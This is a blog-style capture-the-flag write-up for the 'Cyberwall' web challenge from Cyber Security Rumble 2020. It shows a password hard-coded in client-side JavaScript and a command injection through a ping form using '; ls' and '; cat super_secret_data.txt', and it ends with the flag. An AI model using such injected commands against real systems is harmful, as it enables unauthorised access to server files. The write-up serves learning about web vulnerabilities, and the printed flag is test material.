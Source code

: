 ```yaml
---
layout: post
title: "Cyberwall - Cyber Security Rumble CTF 2020"
author: cryptax
date: 2020-10-30
tags:
- CSR
- CTF
- 2020
- Web
---
```


# Cyberwall

- Category: web

*"We had problems with hackers, but now we got a enterprise firewall system build by a leading security company."* with a link to http://chal.cybersecurityrumble.de:3812.

## Web page http://chal.cybersecurityrumble.de:3812

The source code of the page reveals password `rootpw1337`:

```html

<!DOCTYPE html>
<html lang="de">
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
        <link rel="stylesheet" type="text/css" href="/static/login.css">
        <title>Cyberwall</title>
    </head>
    <body>
        <script type="text/javascript">
            function checkPw() {
              var pass = document.getElementsByName('passwd')[0].value;
              if (pass != "rootpw1337") {
                alert("This Password is invalid!");
                return false;
              }
              window.location.replace("management.html");
            }
...
```

## Debugging

The debugging section has an HTTP form with a text to submit (POST):

```html
<h1>Test Host Connection</h1>
<p>Send a ping to a host, to heck your connection.</p>
<form method="POST">
    <input type="text" name="target">
    <input type="submit" value="Ping!" />
</form>
```

The input of *text* is not correctly sanitized, so we try: `; ls`:

![](/images/csr20-cyberwall-ping.png)

Then, we try `; cat super_secret_data.txt`, which provides:

```
CSR{oh_damnit_should_have_banned_curl_https://news.ycombinator.com/item?id=19507225}
```

This is the flag :)
